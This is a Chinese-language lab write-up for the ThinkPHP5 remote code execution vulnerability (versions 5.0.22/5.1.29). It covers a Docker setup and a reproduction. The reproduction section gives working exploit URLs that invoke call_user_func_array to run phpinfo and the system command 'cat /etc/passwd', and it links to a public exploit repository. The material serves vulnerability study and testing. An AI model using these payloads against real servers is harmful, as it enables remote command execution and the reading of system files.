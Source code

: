 # ThinkPHP5 5.0.22/5.1.29 远程代码执行漏洞

## 漏洞描述

ThinkPHP是一款运用极广的PHP开发框架。其版本5中，由于没有正确处理控制器名，导致在网站没有开启强制路由的情况下（即默认情况下）可以执行任意方法，从而导致远程命令执行漏洞。

参考链接：

- http://www.thinkphp.cn/topic/60400.html
- http://www.thinkphp.cn/topic/60390.html
- https://xz.aliyun.com/t/3570

## 环境搭建

运行ThinkPHP 5.0.20版本：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080`即可看到ThinkPHP默认启动页面。

## 漏洞复现

直接访问`http://your-ip:8080/index.php?s=/Index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=-1`，即可执行phpinfo：

![image-20220302150446791](images/202203021504893.png)

执行系统命令：

```
http://your-ip:8080/index.php?s=/Index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=cat%20/etc/passwd
```

![image-20220302150508363](images/202203021505433.png)

## 开源POC/EXP

- https://github.com/sukabuliet/ThinkphpRCE

